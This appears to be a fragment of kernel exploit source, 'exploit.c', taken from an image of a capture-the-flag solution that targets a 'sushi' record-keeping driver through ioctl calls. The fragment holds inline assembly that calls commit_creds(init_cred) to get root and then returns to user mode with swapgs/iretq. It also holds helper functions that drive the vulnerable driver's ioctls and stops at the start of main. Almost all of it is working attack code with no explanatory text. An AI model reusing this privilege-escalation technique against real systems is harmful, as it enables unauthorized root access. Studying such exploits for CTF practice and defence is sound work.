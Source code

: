```exploit.c
      ::"r"((void *)init_cred), "r"((void *)commit_creds) : "memory"
  );
  asm(
      "swapgs\n"
      "mov %%rax, %0\n"
      "push %%rax\n"
      "mov %%rax, %1\n"
      "push %%rax\n"
      "mov %%rax, %2\n"
      "push %%rax\n"
      "mov %%rax, %3\n"
      "push %%rax\n"
      "mov %%rax, %4\n"
      "push %%rax\n"
      "iretq\n" 
      ::"r"(user_ss), "r"(user_sp), "r"(user_rflags), "r"(user_cs), "r"(&NIRUGIRI) : "memory"
    );
}
// (END utils)

void register_record(int fd, int score, char *date){
  struct ioctl_register_query  q = {
    .record = {.result = score,},
  };
  strncpy(q.record.date, date, 0x10);
  if(ioctl(fd, SUSHI_REGISTER_RECORD, &q) < 0){
    errExit("register_record()");
  } 
}

void fetch_record(int fd, int rank, struct record *record){
  struct ioctl_fetch_query q = {
    .rank = rank,
  };
  if(ioctl(fd, SUSHI_FETCH_RECORD, &q) < 0){
    errExit("fetch_record()");
  } 
  memcpy(record, &q.record, sizeof(struct record));
}

void clear_record(int fd){
  if(ioctl(fd, SUSHI_CLEAR_OLD_RECORD, NULL) < 0){
    errExit("clear_record()");
  } 
}

void show_rankings(int fd){
  struct ioctl_fetch_query q;
  for (int ix = 0; ix != 3; ++ix){
    q.rank = ix + 1;
    if (ioctl(fd, SUSHI_FETCH_RECORD, &q) < 0) break;
    printf("%d: %ld sec : %s\n", ix + 1, q.record.result, q.record.date);
  }
}

void clear_all_records(int fd){
  if(ioctl(fd, SUSHI_CLEAR_ALL_RECORD, NULL) < 0){
    errExit("clear_all_records()");
  }
}

int main(int argc, char *argv[]) {
  char inbuf[0x200];
```